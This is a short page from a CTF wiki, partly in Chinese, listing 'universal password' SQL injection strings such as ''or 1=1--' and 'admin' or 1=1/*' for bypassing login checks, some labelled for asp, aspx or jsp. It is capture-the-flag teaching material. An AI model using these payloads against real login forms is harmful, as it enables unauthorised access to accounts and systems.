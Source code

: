 # 万能密码
!!! warning
    The current page still doesn't have a translation for this language.

    You can read it through google translate.

    Besides, you can also help to translate it: [Contributing](https://ctf-wiki.org/en/contribute/before-contributing/).



只是这么个叫法而已


作用只能说是普普通通。


```plain
'or 1=1/*
"or "a"="a
"or 1=1--
"or"="
"or"="a'='a
"or1=1--
"or=or"
''or'='or'
') or ('a'='a
'.).or.('.a.'='.a
'or 1=1
'or 1=1--
'or 1=1/*
'or"="a'='a
'or' '1'='1'
'or''='
'or''=''or''='
'or'='1'
'or'='or'
'or.'a.'='a
'or1=1--
1'or'1'='1
a'or' 1=1--
a'or'1=1--
or 'a'='a'
or 1=1--
or1=1-- asp aspx "or "a"="a
'.).or.('.a.'='.a
or 1=1--
'or 1=1--
a'or' 1=1--
"or 1=1--
'or.'a.'='a
"or"="a'='a
'or''='
or'='or' jsp 1'or'1'='1
admin' or 1=1/*
Plain Text
```





